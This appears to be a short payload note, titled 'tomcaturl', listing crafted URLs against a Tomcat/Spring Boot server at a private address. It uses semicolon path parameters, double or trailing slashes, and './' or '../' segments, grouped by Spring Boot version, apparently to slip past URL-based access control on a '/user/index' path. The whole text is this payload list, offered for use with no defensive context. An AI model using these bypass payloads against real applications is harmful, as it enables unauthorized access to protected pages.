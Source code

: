 # tomcaturl
payload:

高版本springboot：

http://192.168.2.62:8080/;xxx/user/index

http://192.168.2.62:8080/;xxx;/user/index

http://192.168.2.62:8080/;/user/index

http://192.168.2.62:8080//user/index

http://192.168.2.62:8080/user/index/

低版本springboot:

http://192.168.2.62:8080/./user/index

http://192.168.2.62:8080/sss/../user/index
